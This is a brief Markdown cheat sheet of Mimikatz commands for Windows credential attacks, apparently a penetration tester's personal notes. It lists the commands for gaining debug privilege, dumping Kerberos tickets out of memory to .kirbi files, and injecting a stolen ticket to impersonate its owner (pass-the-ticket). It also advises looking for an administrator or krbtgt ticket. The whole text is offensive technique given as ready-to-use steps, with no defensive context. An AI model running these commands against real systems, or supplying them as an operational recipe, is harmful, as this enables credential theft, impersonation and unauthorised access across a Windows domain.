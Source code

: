 ### check privs
`privilege::debug`
Output '20' means you have admin privs

---

### export .kirbi tickets into current dir
`sekurlsa::tickets /export`

try looking for admin ticket from krbtgt

---

### pass the ticket
`kerberos::ptt <ticket>` 
will cache and impersonate given ticket
